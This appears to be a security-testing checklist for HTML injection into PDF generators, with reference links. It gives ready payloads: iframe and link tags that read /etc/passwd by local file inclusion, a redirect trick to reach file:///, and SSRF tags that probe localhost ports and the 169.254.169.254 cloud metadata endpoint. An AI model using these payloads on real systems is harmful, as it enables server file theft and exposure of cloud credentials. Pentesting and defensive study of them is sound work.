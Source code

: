 # PDF Generation issues

If we could inject an HTML tag to the conversion process, in some libraries, we can download almost any file from the web server. For this attack vector, we should use these tags:

## LFI

- [ ] Test iframe tags for LFI: `<iframe src="file:///etc/passwd" height=1000 width=1000/>`
  - https://medium.com/@inonst/export-injection-2eebc4f17117
  - https://docs.google.com/presentation/d/1JdIjHHPsFSgLbaJcHmMkE904jmwPM4xdhEuwhy2ebvo
- [ ] Test object tags for LFI: 
- [ ] Test fonts (CSS) tags for LFI: 
- [ ] Test <link> for LFI. Create an html on an attacker controlled box with the following link tag: `<link rel=attachment href=”file:///etc/passwd”>` (need to unpack the PDF)
- [ ] If accessing file:/// through iframes are blocked point the iframe on an external server who makes a 302 redirect and the Location: file:///.


## SSRF

- [ ] Test iframe tags for SSRF: `<img src=”http://127.0.0.1:445”/>` (check response time to determine open/closed ports)
- [ ] Test object tags for SSRF: `<object data=”http://127.0.0.1:8443”/>`
- [ ] Test fonts (CSS) tags for SSRF: `<style><iframe src=”http://169.254.169.254/user-data”>`
- [ ] This could also happen when pictures are generated with html.
  - https://hackerone.com/reports/816848
